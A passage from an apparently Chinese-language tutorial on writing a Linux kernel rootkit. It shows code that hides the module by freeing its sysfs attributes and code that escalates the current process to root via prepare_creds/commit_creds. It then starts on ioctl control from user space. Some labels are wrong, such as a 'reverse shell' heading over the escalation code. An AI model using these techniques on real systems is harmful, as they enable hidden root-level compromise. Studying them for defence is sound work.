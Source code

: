  // Freeing  
 kfree(THIS\_MODULE-&gt;notes\_attrs);  
 THIS\_MODULE-&gt;notes\_attrs \\= NULL;  
 ​  
 kfree(THIS\_MODULE-&gt;sect\_attrs);  
 THIS\_MODULE-&gt;sect\_attrs \\= NULL;  
 ​  
 kfree(THIS\_MODULE-&gt;mkobj.mp);  
 THIS\_MODULE-&gt;mkobj.mp \\= NULL;  
 THIS\_MODULE-&gt;modinfo\_attrs-&gt;attr.name \\= NULL;  
 ​  
 kfree(THIS\_MODULE-&gt;mkobj.drivers\_dir);  
 THIS\_MODULE-&gt;mkobj.drivers\_dir \\= NULL;

反弹shell
-------

直接利用`prepare_creds`函数。`prepare_creds()`是一个 Linux 内核函数，定义在 security/commoncap.c 中。该函数的作用是为当前进程创建一个新的 cred 结构体，其中包含了进程的 UID、GID、辅助组等身份信息，用于在进程执行时检查权限。

该函数没有参数，返回值是一个指向 cred 结构体的指针，表示新创建的身份信息。

在使用 prepare\_creds() 函数创建新的 cred 结构体后，可以使用 commit\_creds() 函数将其应用于当前进程，使得当前进程的身份信息发生变化。

 struct cred \*root \\= prepare\_creds();  
 ​  
 if (root \\== NULL)  
 {  
 return;  
 }  
 ​  
 // Updating ids to 0 i.e. root  
 root-&gt;uid.val \\= root-&gt;gid.val \\= 0;  
 root-&gt;euid.val \\= root-&gt;egid.val \\= 0;  
 root-&gt;suid.val \\= root-&gt;sgid.val \\= 0;  
 root-&gt;fsuid.val \\= root-&gt;fsgid.val \\= 0;  
 ​  
 // Setting the updated value to cred structure  
 commit\_creds(root);

用户和内核交互
-------

### 方法一、IOCTL（**`Input Output ConTroL`**）

要执行IOCTL，需要：1.设备驱动程序（这里是LKM模块）。2.用户模式程序（控制端）。

```php
 long ioctl(struct file \*filp, unsigned int cmd, unsigned long arg);
```

**用户模式程序**

ioctl函数filp是设备文件描述符，cmd是操作命令，后面的可选参数取决于命令的实现。

filp：打开一个可读写的流即可，不局限于文件。
